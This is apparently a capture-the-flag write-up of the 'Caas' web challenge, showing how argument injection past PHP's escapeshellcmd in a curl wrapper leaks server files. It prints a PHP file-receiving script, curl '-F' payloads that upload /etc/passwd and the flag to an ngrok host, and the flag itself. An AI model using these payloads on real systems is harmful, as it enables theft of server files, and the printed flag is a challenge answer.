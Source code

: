 # Caas

> *cURL As A Service or CAAS is a brand new Alien application, built so that humans can test the status of their websites. However, it seems that the Aliens have not quite got the hang of Human programming and the application is riddled with issues.*
> *This challenge will raise 43 euros for a good cause.*

The website simply `curl` a given domain name or IP address and return the result to the client user

![image-20210421004632439](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/Cyber-Apocalypse-2021/images/Caas-1.png?raw=true)

Taking a look at the source code given, these are the 3 main files that we need to pay close attention for

`main.js` for front-end processing :

```js
var input = document.getElementById('command');
var output = document.getElementById("console-output");

document.getElementById("command").addEventListener('keydown', (e) => {
  if (e.keyCode === 13) {

    let host = input.value;

    try {
      new URL(host);
    } catch {
      return output.innerHTML = "Illegal Characters Detected";
    }

    output.innerHTML = '';

    fetch('/api/curl', {
      method: 'POST',
      body: `ip=${host}`,
      headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
      }
    })
    .then(resp => resp.json())
    .then(data => {
      output.innerHTML = data.message;
    });

    input.value = '';
  }
});
```

`index.php` :

```php
<?php 
date_default_timezone_set('UTC');

spl_autoload_register(function ($name){
    if (preg_match('/Controller$/', $name))
    {
        $name = "controllers/${name}";
    }
    else if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

$router = new Router();
$router->new('GET', '/', 'CurlController@index');
$router->new('POST', '/api/curl', 'CurlController@execute' );

$response = $router->match();

die($response);
```

`CommandModel.php` :

```php
<?php
class CommandModel
{
    public function __construct($url)
    {
        $this->command = "curl -sL " . escapeshellcmd($url);
    }

    public function exec()
    {
        exec($this->command, $output);
        return $output;
    }
}
```

Basically the application will take a user input as a `host` URL to use as a `curl` command argument in `CommandModel.php` to respond the host's content to the client. As they used `escapeshellcmd()` to ensure that user execute only *one command*, we can exploit this using **Argument Injection** technique

Firstly, I built up a shell to retrieve the exfiltrated file data from the vulnerable server

```php
<?php file_put_contents('passwords.txt', file_get_contents($_FILES['password']['tmp_name'])); ?>
```

Then I hosted it using **ngrok** secure tunnel

![image-20210420231516732](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/Cyber-Apocalypse-2021/images/Caas-2.png?raw=true)

To bypass the `trycatch` used in the front-end JavaScript file, I simply used BurpSuite to intercept and modify the request

I used this payload to test the file retrieval on `/etc/passwd` and it workded

```
-F password=@/etc/passwd http://521cc97681d2.ngrok.io/shell.php
```

![image-20210420231924112](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/Cyber-Apocalypse-2021/images/Caas-3.png?raw=true)

Now I tried to retrieve the flag at `../../flag` :

```
-F password=@../../flag http://521cc97681d2.ngrok.io/shell.php
```

![image-20210420232202459](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/Cyber-Apocalypse-2021/images/Caas-4.png?raw=true)

Flag :

```
CHTB{f1le_r3trieval_4s_a_s3rv1ce}
```

